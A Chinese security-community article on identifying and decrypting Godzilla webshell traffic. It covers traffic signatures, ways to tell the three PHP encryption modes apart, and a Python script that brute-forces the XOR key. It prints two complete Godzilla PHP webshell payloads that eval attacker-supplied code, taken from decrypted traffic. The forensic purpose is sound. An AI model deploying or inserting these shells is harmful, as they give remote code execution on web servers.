# 哥斯拉流量PHP3种加密方式讲解及PHP_XOR_BASE64爆破密钥思路-先知社区

> **来源**: https://xz.aliyun.com/news/16397  
> **文章ID**: 16397

---

## 前言

哥斯拉流量有三种PHP加密方式:**PHP\_EVAL\_XOR\_BASE64,PHP\_XOR\_BASE64,PHP\_XOR\_RAW**,并且是通过密码和密钥进行加密的，那PHP\_XOR\_BASE64加密下，我们有流量的响应体和请求体的时候，却没有密钥or密码，该如何爆破？

## 哥斯拉流量如何识别

先上传了小马



之后上传了一个大马





**并且请求头没cookie，响应头出现了 set-cookie 响应体没内容**

之后的包



1.cookie尾部有分号(**强特征**)

2.请求体前后有十六位**固定**数字

3.Accept字段为 :Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8(**弱特征**，攻击者可以修改请求头accept来绕过这个特征)

4.响应体 Cache-Control: no-store, no-cache, must-revalidate(**弱特征**)

就可以证明是哥斯拉流量

## 如何判断是哪种加密方式

### PHP\_XOR\_BASE64:



请求体参数值是**密文** 响应体:第二行的前和尾部是十六个十六进制字符

### PHP\_EVAL\_XOR\_BASE64:



请求体参数值是**明文** 响应体前和尾部是十六个十六进制字符

### PHP\_XOR\_RAW





是一堆原始数据，且请求体出现了 cookie有分号 Cache-Control: no-store, no-cache, must-revalidate Conten-Length:0的特征

## 如何解密

这里我推荐使用Decode\_Tools\_v1.0-1.0-SNAPSHOT.jar



### PHP\_EVAL\_XOR\_BASE64解密:

需要知道密码和密钥(密钥是某明文进行md5加密后去前十六个字符)



可以直接在这里对请求体hacker的值 进行urldecode ->strrev->base64\_decode 后找到密码和密钥

```
import base64
import urllib.parse

# URL 编码字符串
encoded_string = 'K0QfK0QfgACIgoQD9BCIgACIgACIK0wOpkXZrRCLhRXYkRCKlR2bj5WZ90VZtFmTkF2bslXYwRyWO9USTNVRT9FJgACIgACIgACIgACIK0wepU2csFmZ90TIpIybm5WSzNWazFmQ0V2ZiwSY0FGZkgycvBnc0NHKgYWagACIgACIgAiCNsXZzxWZ9BCIgAiCNsTK2EDLpkXZrRiLzNXYwRCK1QWboIHdzJWdzByboNWZgACIgACIgAiCNsTKpkXZrRCLpEGdhRGJo4WdyBEKlR2bj5WZoUGZvNmbl9FN2U2chJGIvh2YlBCIgACIgACIK0wOpYTMsADLpkXZrRiLzNXYwRCK1QWboIHdzJWdzByboNWZgACIgACIgAiCNsTKkF2bslXYwRCKsFmdllQCK0QfgACIgACIgAiCNsTK5V2akwCZh9Gb5FGckgSZk92YuVWPkF2bslXYwRCIgACIgACIgACIgAiCNsXKlNHbhZWP90TKi8mZul0cjl2chJEdldmIsQWYvxWehBHJoM3bwJHdzhCImlGIgACIgACIgoQD7kSeltGJs0VZtFmTkF2bslXYwRyWO9USTNVRT9FJoUGZvNmbl1DZh9Gb5FGckACIgACIgACIK0wepkSXl1WYORWYvxWehBHJb50TJN1UFN1XkgCdlN3cphCImlGIgACIK0wOpkXZrRCLp01czFGcksFVT9EUfRCKlR2bjVGZfRjNlNXYihSZk92YuVWPhRXYkRCIgACIK0wepkSXzNXYwRyWUN1TQ9FJoQXZzNXaoAiZppQD7ciMmVDMjVDZ4AjMxYzNiNzNn0TeltGJK0wOnQWYvxWehB3J9UWbh5EZh9Gb5FGckoQD7ciclt2YhhGaoh2J9M3chBHJK0QfK0wOERCIuJXd0VmcgACIgoQD9BCIgAiCNszYk4VXpRyWERCI9ASXpRyWERCIgACIgACIgoQD70VNxYSMrkGJbtEJg0DIjRCIgACIgACIgoQD7BSKrsSaksTKERCKuVGbyR3c8kGJ7ATPpRCKy9mZgACIgoQD7lySkwCRkgSZk92YuVGIu9Wa0Nmb1ZmCNsTKwgyZulGdy9GclJ3Xy9mcyVGQK0wOpADK0lWbpx2Xl1Wa09FdlNHQK0wOpgCdyFGdz9lbvl2czV2cApQD'

# URL 解码
url_decoded = urllib.parse.unquote(encoded_string)

# 反转字符串
reversed_string = url_decoded[::-1]

# Base64 解码
base64_decoded = base64.b64decode(reversed_string)

# 尝试解码为 UTF-8 字符串
try:
    decoded_command = base64_decoded.decode('utf-8')
    print("解码后的命令:", decoded_command)
except UnicodeDecodeError as e:
    print("解码失败，可能是非 UTF-8 编码:", e)
```

解出

```
@session_start();
@set_time_limit(0);
@error_reporting(0);
function encode($D,$K){
    for($i=0;$i<strlen($D);$i++) {
        $c = $K[$i+1&15];
        $D[$i] = $D[$i]^$c;
    }
    return $D;
}
$pass='hhhhacker';
$payloadName='payload';
$key='73b761208d5c05f2';
if (isset($_POST[$pass])){
    $data=encode(base64_decode($_POST[$pass]),$key);
    if (isset($_SESSION[$payloadName])){
        $payload=encode($_SESSION[$payloadName],$key);
        if (strpos($payload,"getBasicsInfo")===false){
            $payload=encode($payload,$key);
        }
        eval($payload);
        echo substr(md5($pass.$key),0,16);
        echo base64_encode(encode(@run($data),$key));
        echo substr(md5($pass.$key),16);
    }else{
        if (strpos($data,"getBasicsInfo")!==false){
            $_SESSION[$payloadName]=encode($data,$key);
        }
    }
}
```

其中$pass 就是密码 $key就是密钥



### PHP\_XOR\_BASE64密钥爆破:

也是找密钥和密码


从这个我们只能知道Antsword是密码 但是不知道密钥，要通过**爆破**

思路：知道密码，知道响应体返回的前十六位是固定的，通过字典爆破，对请求体进行解密，直到出现了e71f50e9773b23f9，则说明密钥的**明文**的正确(为什么是明文，是因为密钥是某个明文的md5后的取前十六个字符，所以当我们爆破成功后，要进行md5，再去前十六位，才是**密钥**)

```
import hashlib

def read(path):
    # 读取文件内容并去除空行
    with open(path, 'r') as file:
        ap = [line.strip() for line in file if line.strip()]
    return ap

def encode(D, K):
    # 使用给定的密钥进行异或操作
    encoded = list(D)  # 将字符串转换为列表，以便修改字符
    for i in range(len(D)):
        c = K[(i + 1) & 15]  # 索引位置是循环的 (i + 1) & 15
        encoded[i] = chr(ord(D[i]) ^ ord(c))  # 异或操作并重新转换为字符
    return ''.join(encoded)

def main():
    # 设置密码
    passphrase = 'Antsword'

    # 读取文件
    ap = read('./a.txt')

    # 遍历读取的每一行
    for p in ap:
        # 计算与每个字符串相关的 md5 哈希
        ff = hashlib.md5((passphrase + hashlib.md5(p.encode()).hexdigest()[:16]).encode()).hexdigest()[:16]

        # 如果匹配预定的哈希值
        if ff == "e71f50e9773b23f9":
            print(p)
            print(hashlib.md5(p.encode()).hexdigest()[:16])

if __name__ == "__main__":
    main()
```



跑出来是Anwsw0rd a18551e65c48f51e是Antsw0rd去md5后去前十六位的（**密钥**）

带入工具解密得信息



### PHP\_XOR\_RAW

解密后是这样

```
<?php
@session_start();
@set_time_limit(0);
@error_reporting(0);
function encode($D,$K){
    for($i=0;$i<strlen($D);$i++) {
        $c = $K[$i+1&15];
        $D[$i] = $D[$i]^$c;
    }
    return $D;
}
$payloadName='payload';
$key='3c6e0b8a9c15224a';
$data=file_get_contents("php://input");
if ($data!==false){
    $data=encode($data,$key);
    if (isset($_SESSION[$payloadName])){
        $payload=encode($_SESSION[$payloadName],$key);
        if (strpos($payload,"getBasicsInfo")===false){
            $payload=encode($payload,$key);
        }
        eval($payload);
        echo encode(@run($data),$key);
    }else{
        if (strpos($data,"getBasicsInfo")!==false){
            $_SESSION[$payloadName]=encode($data,$key);
        }
    }
}
```

具体情况我还没有遇到
